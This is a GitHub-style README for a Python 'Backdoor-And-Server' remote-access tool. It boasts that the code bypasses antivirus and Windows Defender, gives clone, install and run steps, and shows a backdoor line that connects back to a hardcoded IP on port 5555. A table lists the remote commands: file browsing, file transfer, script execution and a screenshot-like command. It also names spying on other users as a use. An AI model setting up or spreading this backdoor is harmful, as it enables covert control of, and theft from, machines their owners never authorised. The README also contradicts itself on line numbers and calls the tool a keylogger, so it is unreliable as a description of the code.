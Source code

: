 ## Backdoor-And-Server 🖥️🔍

This is a simple server-client Python application that allows you to remotely execute basic commands on the server from the backdoor. 

We can use this project to establish a connection between a server and backdoor , this code is personally crafted and succesful in bypassing the antivirus and windows defender 🍴✨



## Warning ⚠️☠️

**This project is intended for educational and research purposes only.**

Please use this code responsibly and only on devices and systems for which you have explicit authorization.

The author of this project are not responsible for any misuse or illegal activities involving this software.


## Installation Process 📥

First, clone the repository and navigate to the Backdoor-And-Server directory:

```
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

Next, install the requrements using pip3 with the following instructions:

For **Server.py**
```
$ pip3 install -r requirements.txt
```
For **Backdoor.py**
```
$ pip3 install -r requirements.txt
```

## Pre Execution ⏮️

On line number **120** of **server.py** file
```
36. sock.bind(('xx.xxx.xx.xx',xxxx)) #replace 'xx.xxx.xx.xx'
```
On line number **160** of **backdoor.py** file
```
160. s.connect(('68.183.89.11',5555))  #replace 'username' 'password'
```

## Execution 🏃‍♂️

Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
This will establish a connection with the server, and you can start sending commands to be executed on the server.🛜

## Available Commands

Here's a table of the commands you can run on the server from the client:

| Command                | Description                                                     |
|------------------------|-----------------------------------------------------------------|
| `ls`                   | List the files and directories in the current directory.        |
| `cd <foldername>`      | Change the current directory to the specified folder.           |
| `cd ..`                | Navigate to the parent directory.                               |
| `pwd`                  | Print the current working directory.                            |
| `cat`                  | Display the contents of a text file.                            |
| `python1 <filename>`   | Execute a Python 1.x script with the specified filename.        |
| `python3 <filename>`   | Execute a Python 3.x script with the specified filename.        |
| `copy <filename>`      | Copy a file from the client to the server.                      |
| `bye`                  | Disconnect from the server.                                     |
| `scrst`                | Command description not provided.                               |
| `send <filename>`      | Send a file to the server.                                      |
| `help`                 | Display a list of available commands.                           |



## Potential Uses 💡

Keyloggers can be used for:

- Personal Control and File Backup: Ensure no one is using your computer in your absence. 🔒💼
- Self Analysis: Verify if your system is being accessed by someone else. 🕵️‍♂️💻
- Malicious Intent: Spy on other systems and users (Not recommended). 👀🚫"
